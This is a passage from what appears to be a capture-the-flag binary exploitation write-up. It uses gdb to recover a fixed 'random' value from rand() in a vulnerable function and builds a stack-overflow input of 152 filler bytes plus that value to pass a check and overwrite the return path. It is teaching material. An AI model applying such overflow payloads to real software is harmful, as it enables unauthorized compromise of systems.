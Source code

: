```
End of assembler dump.
```

We can see at vuln+95, we make the second call to rand(). We can then see on
the line after, we are comparing the value in the register %eax to the value
at %rbp-0x8. We know that the register %eax is used to store the return
value of the function just called, so this must be our random value! Now we
just need to run the program to this point and find the actual value. To do
this, we'll put a breakpoint right after the call to rand(), and then check
the registers:

```
(gdb) b *vuln+100
Breakpoint 1 at 0x40081a
(gdb) r
Here are some useful addresses:

puts: 0x400610
fflush 0x400680
read: 0x400640
write: 0x400620

Enter a string:
aaaaa
Thanks! Exiting now...

Breakpoint 1, 0x000000000040081a in vuln ()
(gdb) info registers
rax            0x12345678       
```

Perfect! Lets write this "random" value down, as we'll need it in a minute to
add to our exploit string. Just to be sure that we really get the same number
every time, we can repeat the process and see the same value in %rax again.

Now to build the exploit string. Our buffer is 152 bytes long, and local_10
begins right after it, so it seems like we just need to fill the buffer with
152 bytes of garbage and then put our random value on the stack to overwrite
local_10. Then, to test if this works, we're going to print a bunch more garbage
after. This way, we'll know if we pass the if statement because we'll get a 
segmentation fault from overriding the return address. Let's give it a try:

```
(gdb) r <<< $(python -c 'print "a"*152 + "\x78\x56\x34\x12" + "b"*50')
Here are some useful addresses:

puts: 0x400610
fflush 0x400680
read: 0x400640
write: 0x400620

Enter a string:
Thanks! Exiting now...
key = 1650614882[Inferior 1 (process 504) exited normally]
```

